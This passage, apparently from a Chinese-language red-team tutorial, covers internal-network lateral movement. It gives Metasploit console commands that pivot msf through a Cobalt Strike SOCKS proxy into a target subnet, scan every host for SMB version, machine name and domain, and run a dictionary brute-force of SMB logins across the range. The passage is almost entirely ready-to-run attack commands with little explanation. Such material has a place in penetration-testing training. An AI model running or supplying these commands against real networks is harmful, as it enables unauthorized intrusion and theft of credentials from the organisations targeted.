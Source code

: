 ```bash
# 意思就是让本地的 msf 走上面 cs 的 socks 代理
$msf > setg Proxies socks4:1xx.1xx.57.70:1080

# 建立双向通道
msf > setg ReverseAllowProxy true

# 拿着 msf 中的各类探测模块对目标内网进行正常探测即可
msf > use auxiliary/scanner/smb/smb_version
# 比如,识别目标内网所有 Windows 机器的详细系统版本,机器名和所在域

# 指定目标范围
msf > set rhosts 192.168.91.0/24

# 设置线程
msf > set threads 10

# 润
msf > run
```

[![](assets/1702372940-2bdc8cc0c3088f76442784b02f8e8249.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/41.png)

#### [](#SMB-%E6%89%B9%E9%87%8F%E7%88%86%E7%A0%B4 "SMB 批量爆破")SMB 批量爆破[](#SMB-%E6%89%B9%E9%87%8F%E7%88%86%E7%A0%B4)

```bash
use auxiliary/scanner/smb/smb_login
set threads 10
set rhosts 192.168.91.0/24
set smbdomain test  # 域名
set user_file /root/user.txt  # 指定字典地址
set pass_file /root/pass.txt  # 指定字典地址
run
```

[![](assets/1702372940-bc833866a649d081f9a5837cbce1f5d8.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/43.png)

